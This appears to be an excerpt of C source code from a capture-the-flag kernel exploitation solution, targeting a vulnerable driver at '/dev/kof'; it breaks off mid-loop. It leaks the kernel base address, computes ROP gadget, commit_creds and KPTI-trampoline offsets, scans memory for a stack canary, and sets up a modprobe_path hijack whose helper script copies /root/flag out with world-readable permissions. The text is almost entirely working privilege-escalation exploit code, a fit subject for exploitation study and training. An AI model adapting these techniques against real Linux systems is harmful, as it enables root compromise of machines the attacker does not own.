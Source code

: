 ```c
    rv.user_rip = &shell;
}

void get_flag(void){
    puts("[*] Returned to userland, setting up for fake modprobe");

    system("echo '#!/bin/sh\ncp /root/flag /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[*] Run unknown file");
    system("/tmp/dummy");

    puts("[*] Hopefully flag is readable");
    system("cat /tmp/flag");

    exit(0);
}

int main() {
    int fd = open("/dev/kof", O_RDWR);
    size_t buf[0x1000] = {0,};
    int i;

    printf("%d\n", fd);
    for (int i=0;; ++i) {
        buf[0] = 0xffffffff81000000 + i * 0x1000;
        // printf("%llx\n", buf[0]);
        read(fd, buf, 0x100);
        if (buf[1])
            break;
    }

    void *kernel_base = buf[0];
    commit_creds = kernel_base + 0xb6340;
    prepare_kernel_cred = kernel_base + 0xb65f0;
    size_t pop_rdi = kernel_base + 0x1be6a5;
    size_t pop_rcx = kernel_base + 0x24e43;
    size_t pop_rax = kernel_base + 0xb9279;
    // 0xffffffff814bfa34: mov byte [rbx], ah ; ret ; (1 found)
    size_t write_byte_rbx_ah = kernel_base + 0x4bfa34;
    size_t pop_rbx = kernel_base + 0x65167;

    size_t swapgs_restre_regs_and_return_to_usermode = kernel_base + 0x1001610;
    size_t kpti_trampoline = swapgs_restre_regs_and_return_to_usermode + 0x31;
    size_t modprobe_path = kernel_base + 0x1b3fb80;
    printf("[+] kernel base @ %p\n", kernel_base);
    
    size_t target = kernel_base + 0x17761f0;
    buf[0] = target;
    read(fd, buf, 0x100);
    size_t data_head = buf[1];
    printf("[*] data head @ %p\n", data_head);

    size_t canary = 0;
    for (int k=0;; ++k) {
        unsigned char val[8] = {0, };
        memset(buf, 0, 0x1000);
        buf[0] = data_head + 0x1000 * k;
        printf("%p\n", buf[0]);
        read(fd, buf, 0x1000);
```